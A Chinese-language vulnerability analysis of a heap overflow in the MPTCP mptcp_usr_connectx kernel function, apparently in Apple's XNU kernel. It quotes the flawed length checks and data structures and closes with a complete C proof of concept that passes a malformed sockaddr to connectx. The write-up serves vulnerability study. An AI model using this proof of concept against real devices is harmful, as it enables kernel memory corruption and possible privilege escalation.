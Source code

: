 # 漏洞分析

漏洞函数是mptcp_usr_connectx

漏洞原因是因为该函数没有正确处理当sockaddrs不是AF_INET或AF_INET6的情况

// verify sa_len for AF_INET:

	if (dst->sa_family == AF_INET &&
	    dst->sa_len != sizeof(mpte->__mpte_dst_v4)) {
		mptcplog((LOG_ERR, "%s IPv4 dst len %u\n", __func__,
			  dst->sa_len),
			 MPTCP_SOCKET_DBG, MPTCP_LOGLVL_ERR);
		error = EINVAL;
		goto out;
	}

// verify sa_len for AF_INET6:

	if (dst->sa_family == AF_INET6 &&
	    dst->sa_len != sizeof(mpte->__mpte_dst_v6)) {
		mptcplog((LOG_ERR, "%s IPv6 dst len %u\n", __func__,
			  dst->sa_len),
			 MPTCP_SOCKET_DBG, MPTCP_LOGLVL_ERR);
		error = EINVAL;
		goto out;
	}

函数只是简单的判断了dst->sa_family是否是AF_INET或AF_INET6的情况,对于不是AF_INET或AF_INET6的的情况，没有做判断

之后会执行的代码如下：

// code doesn't bail if sa_family was neither AF_INET nor AF_INET6

	if (!(mpte->mpte_flags & MPTE_SVCTYPE_CHECKED)) {
		if (mptcp_entitlement_check(mp_so) < 0) {
			error = EPERM;
			goto out;
		}

		mpte->mpte_flags |= MPTE_SVCTYPE_CHECKED;
	}

// memcpy with sa_len up to 255:

	if ((mp_so->so_state & (SS_ISCONNECTED|SS_ISCONNECTING)) == 0) {
		memcpy(&mpte->mpte_dst, dst, dst->sa_len);
	}

会往mpte->mpte_dst里复制从dst开始的dst->sa_len个字节

具体看看这三个参数都是什么

# mpte
mpte是个结构体

    struct mptses *mpte = NULL;

来自

    mpte = mptompte(mpp);

具体结构如下：

    /*
    * MPTCP Session
    *
    * This is an extension to the multipath PCB specific for MPTCP, protected by
    * the per-PCB mpp_lock (also the socket's lock);
    */
    struct mptses {
        struct mppcb	*mpte_mppcb;		/* back ptr to multipath PCB */
        struct mptcb	*mpte_mptcb;		/* ptr to MPTCP PCB */
        TAILQ_HEAD(, mptopt) mpte_sopts;	/* list of socket options */
        TAILQ_HEAD(, mptsub) mpte_subflows;	/* list of subflows */
        uint16_t	mpte_numflows;		/* # of subflows in list */
        uint16_t	mpte_nummpcapflows;	/* # of MP_CAP subflows */
        sae_associd_t	mpte_associd;		/* MPTCP association ID */
        sae_connid_t	mpte_connid_last;	/* last used connection ID */

        union {
            /* Source address of initial subflow */
            struct sockaddr	mpte_src;
            struct sockaddr_in __mpte_src_v4;
            struct sockaddr_in6 __mpte_src_v6;
        };

        union {
            /* Destination address of initial subflow */
            struct sockaddr	mpte_dst;
            struct sockaddr_in __mpte_dst_v4;
            struct sockaddr_in6 __mpte_dst_v6;
        };

        struct mptsub	*mpte_active_sub;	/* ptr to last active subf */
        uint8_t	mpte_flags;			/* per mptcp session flags */
    #define	MPTE_SND_REM_ADDR	0x01		/* Send Remove_addr option */
    #define	MPTE_SVCTYPE_CHECKED	0x02		/* Did entitlement-check for service-type */
    #define	MPTE_FIRSTPARTY		0x04		/* First-party app used multipath_extended entitlement */
    #define	MPTE_ACCESS_GRANTED	0x08		/* Access to cellular has been granted for this connection */
        uint8_t	mpte_svctype;			/* MPTCP Service type */
        uint8_t	mpte_lost_aid;			/* storing lost address id */
        uint8_t	mpte_addrid_last;		/* storing address id parm */

    #define	MPTE_ITFINFO_SIZE	4
        uint32_t	mpte_itfinfo_size;
        struct mpt_itf_info	_mpte_itfinfo[MPTE_ITFINFO_SIZE];
        struct mpt_itf_info	*mpte_itfinfo;

        struct mbuf		*mpte_reinjectq;

        /* The below is used for stats */
        uint32_t	mpte_subflow_switches;	/* Number of subflow-switches in sending */
        uint32_t	mpte_used_cell:1,
                mpte_used_wifi:1,
                mpte_initial_cell:1,
                mpte_handshake_success:1;

        struct mptcp_itf_stats	mpte_itfstats[MPTCP_ITFSTATS_SIZE];
        uint64_t		mpte_init_txbytes __attribute__((aligned(8)));
        uint64_t		mpte_init_rxbytes __attribute__((aligned(8)));
    };

mpte_dst是mpte结构体中代表Destination address的值，它是一个结构体

    struct sockaddr	mpte_dst;

sockaddr结构体具体如下：

    struct sockaddr {
            u_char	sa_len;
            u_char	sa_family;
            char	sa_data[14];
        };

# dst

dst是函数传入的参数，也是结构体sockaddr

    struct sockaddr *dst

dst->sa_len就是它里面表示结构体长度的值


# 漏洞成因

漏洞原因就是没有处理非AF_INET或AF_INET6的的情况，导致可以伪造一个非法的sockaddr结构，设置一个非AF_INET或AF_INET6的sa->family,以及设置sa->len为一个很大的值，那么就可以造成堆覆盖

# poc

这里看一下啤酒巨佬的poc

    #include <sys/socket.h>
    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
    #include <netinet/in.h>
    #include <unistd.h>

    #define AF_MULTIPATH 39

    int main() {
    int sock = socket(AF_MULTIPATH, SOCK_STREAM, 0);//
    if (sock < 0) {
        printf("socket failed\n");
        perror("");
        return 0;
    }
    printf("got socket: %d\n", sock);

    struct sockaddr* sockaddr_src = malloc(256);//申请一个sockaddr结构体作为源地址
    memset(sockaddr_src, 'A', 256);
    sockaddr_src->sa_len = 220;
    sockaddr_src->sa_family = 'B';
    
    struct sockaddr* sockaddr_dst = malloc(256);//申请一个sockaddr结构体作为目的地址
    memset(sockaddr_dst, 'A', 256);
    sockaddr_dst->sa_len = sizeof(struct sockaddr_in6);
    sockaddr_dst->sa_family = AF_INET6;

    sa_endpoints_t eps = {0};
    eps.sae_srcif = 0;
    eps.sae_srcaddr = sockaddr_src;
    eps.sae_srcaddrlen = 220;
    eps.sae_dstaddr = sockaddr_dst;
    eps.sae_dstaddrlen = sizeof(struct sockaddr_in6);

    int err = connectx(
        sock,
        &eps,
        SAE_ASSOCID_ANY,
        0,
        NULL,
        0,
        NULL,
        NULL);

    printf("err: %d\n", err);

    close(sock);

    return 0;
    }

